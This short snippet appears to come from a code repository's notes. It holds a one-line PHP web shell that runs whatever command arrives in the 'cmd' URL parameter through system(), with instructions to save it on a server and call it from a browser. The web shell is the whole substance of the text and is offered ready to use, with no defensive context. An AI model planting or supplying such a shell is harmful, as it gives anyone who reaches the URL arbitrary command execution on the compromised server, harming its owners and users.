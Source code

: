 ```
<?php
	echo system($_GET["cmd"]);
?>
```
PHP payload script to save on the server.
Then in an Internet browser:
`http://<domain>/<webshell.php>?cmd=<command>`